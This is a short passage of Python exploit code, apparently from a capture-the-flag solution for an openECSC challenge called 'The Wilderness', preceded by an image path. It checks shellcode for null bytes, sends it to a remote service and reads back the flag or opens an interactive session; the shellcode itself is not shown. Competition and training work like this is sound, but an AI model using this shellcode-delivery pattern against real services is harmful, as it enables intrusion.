 ```python

if b"\x00" in shellcode:
    print(f"[-] shellcode contains null bytes")
    exit(1)

io.sendlineafter(b"How many bytes do you want to write in The Wilderness?\n", str(len(shellcode)).encode())
io.sendlineafter(b"What do you want to do in The Wilderness?\n", shellcode)

if args.ATTACH:
    io.interactive()
else:
    res = io.recvuntil(b"openECSC{")
    print('openECSC{' + io.recvuntil(b'}').decode())
```
